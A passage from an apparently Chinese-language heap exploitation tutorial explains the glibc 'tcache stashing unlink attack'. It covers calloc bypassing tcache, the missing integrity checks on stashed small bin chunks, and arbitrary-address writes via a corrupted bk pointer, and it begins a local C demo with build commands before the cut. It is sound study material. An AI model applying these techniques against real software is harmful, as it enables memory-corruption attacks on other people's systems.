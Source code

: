 接着查看一下重新`malloc`的`chunk_b`，可以看到`chunk_b`的`malloc`地址就是`fake_chunk`的`malloc`地址

![](images/16.png#pic_center)

### tcache stashing unlink attack

`tcache stashing unlink attack`的攻击手法利用的是`tcache bin`中有剩余（数量小于`TCACHE_MAX_BINS`）时，同大小的`small bin`会放进`tcache`中（在`small bin`中包含有空闲块的时候，会同时将同大小的其他空闲块，放入`tcache`中），这种情况可以使用`calloc`分配同大小堆块触发，因为`calloc`分配堆块时不从`tcache bin`中选取，在获取到一个`small bin`中的一个`chunk`后，如果`tcache`仍有足够空闲的位置时，会将剩余的`small bin`挂进`tcache`中，在这个过程中只对第一个`bin`进行了完整性检查，后面的堆块的检查缺失

当攻击者可以修改一个`small bin`的`bk`时，就可以实现在任意地址上写一个`libc`地址，构造得当的情况下也可以分配`fake_chunk`到任意地址

- `tcache stashing unlink attack demo`

```c
// gcc -fno-stack-protector -no-pie -g tcache-stashing-unlink-attack-demo.c -o tcache-stashing-unlink-attack-demo
// patchelf --set-interpreter /home/h3rmesk1t/glibc-all-in-one/libs/2.27-3ubuntu1_amd64/ld-linux-x86-64.so.2 --set-rpath /home/h3rmesk1t/glibc-all-in-one/libs/2.27-3ubuntu1_amd64 tcache-stashing-unlink-attack-demo


#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main(){
    unsigned long stack_var[0x10] = {0};
    unsigned long *chunk_lis[0x10] = {0};
    unsigned long *target;

    setbuf(stdout, NULL);
	
	printf("stack_var addr is:%p\n",&stack_var[0]);
	printf("chunk_lis addr is:%p\n",&chunk_lis[0]);
	printf("target addr is:%p\n",(void*)target);
	
    stack_var[3] = (unsigned long)(&stack_var[2]);

```